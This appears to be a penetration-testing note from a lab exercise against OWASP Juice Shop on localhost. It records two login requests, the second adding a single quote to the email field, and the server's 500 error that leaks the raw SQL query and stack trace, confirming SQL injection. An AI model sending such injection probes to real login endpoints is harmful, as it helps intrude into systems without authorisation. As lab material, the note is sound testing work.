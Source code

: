 # SQL Injection Testing

# SQL Injection Exists

## Invalid Credentials

### Request

POST /rest/user/login HTTP/1.1
Host: localhost:3000
Content-Length: 37
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://localhost:3000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate, br
Cookie: welcomebanner_status=dismiss; cookieconsent_status=dismiss; language=en
Connection: keep-alive

{"email":"admin",
"password":"admin"}

### Response

HTTP/1.1 401 Unauthorized
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: text/html; charset=utf-8
Content-Length: 26
ETag: W/"1a-ARJvVK+smzAF3QQve2mDSG+3Eus"
Vary: Accept-Encoding
Date: Mon, 31 Mar 2025 16:01:32 GMT
Connection: keep-alive
Keep-Alive: timeout=5

Invalid email or password.


## SQL Query Error

### Request

POST /rest/user/login HTTP/1.1
Host: localhost:3000
Content-Length: 40
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://localhost:3000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate, br
Cookie: welcomebanner_status=dismiss; cookieconsent_status=dismiss; language=en
Connection: keep-alive

{"email":"admin '",
"password":"admin"}

### Response

HTTP/1.1 500 Internal Server Error
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: application/json; charset=utf-8
Vary: Accept-Encoding
Date: Mon, 31 Mar 2025 15:56:51 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 1182

{
  "error": {
    "message": "SQLITE_ERROR: unrecognized token: \"21232f297a57a5a743894a0e4a801fc3\"",
    "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)",
    "name": "SequelizeDatabaseError",
    "parent": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = 'admin '' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL"
    },
    "original": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = 'admin '' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL"
    },
    "sql": "SELECT * FROM Users WHERE email = 'admin '' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL",
    "parameters": {}
  }
}